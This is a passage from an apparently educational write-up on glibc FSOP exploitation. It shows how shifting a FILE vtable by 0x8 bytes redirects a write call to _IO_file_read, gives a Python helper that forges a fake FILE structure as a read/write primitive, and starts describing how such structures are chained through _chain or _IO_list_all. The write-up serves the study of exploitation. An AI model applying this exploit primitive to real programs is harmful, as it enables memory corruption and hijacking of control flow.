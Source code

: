 It just so happens that there is one `_IO_do_write` call in it. And when `_IO_SYSWRITE` is reached, program call function via indexing the `vtable`, take a value at offset `&_vtables + 0x78` which is now actually point to `_IO_file_read` because we were shifted the `vtable` `0x8` bytes back! 

```c
/* from: https://elixir.bootlin.com/glibc/glibc-2.39/source/libio/fileops.c#L1130 */
ssize_t
_IO_file_read (FILE *fp, void *buf, ssize_t size)
{
  return (__builtin_expect (fp->_flags2 & _IO_FLAGS2_NOTCANCEL, 0)
	  ? __read_nocancel (fp->_fileno, buf, size)
	  : __read (fp->_fileno, buf, size));
}
libc_hidden_def (_IO_file_read)
```

The call chain is:

```c
_IO_new_file_finish (f, EOF) // due to misaligned vtable
|_ _IO_new_do_write (f, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base)
   |_ ...
      |_ _IO_file_read (f, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base) // due to misaligned vtable
         |_ read (f->_fileno, f->_IO_write_base, f->_IO_write_ptr - f->_IO_write_base)
```

Once again, I won't go into details about the conditions, but here, we can construct a write primitive `fp` like this:

```python
def fake_io_read(read_addr, leng, next_file):
	global _IO_file_jumps
	payload = fit({
	    0x00: 0x8000 | 0x40 | 0x1000, #_flags
	    0x20: read_addr, #_IO_write_base
	    0x28: read_addr + leng, #_IO_write_ptr
	    0x68: next_file, #_chain
	    0x70: 0, # _fileno
	    0xc0: 0, #_modes
	    0xd8: _IO_file_jumps - 0x8, #_vtables
	}, filler=b'\x00')
	return payload
```

### FSOP chains

We finished our fake file structure payload that can read or write any address, now we need to string them together, via the the `_chain` field, to achieve a powerful attack effect. Unlike the original author, I divide the attack process into few steps, which will be described details below:

> From this point, I will refer the "fake file structure" as `fp`. 

**Step 1. Insert a `fp` into file stream's linked list**:
You can write to any active file stream's `_chain` field or target the `_IO_list_all`. In this step, you need to prepare a fake file with overwrite primitive (essential), remember to set up it's field before linking it. I suggest you to set up `_IO_write_base` and `_IO_write_ptr` large enough to place at least two (consecutive) another `fp`. Then you can forge the program exit, trigger our exploit chain.
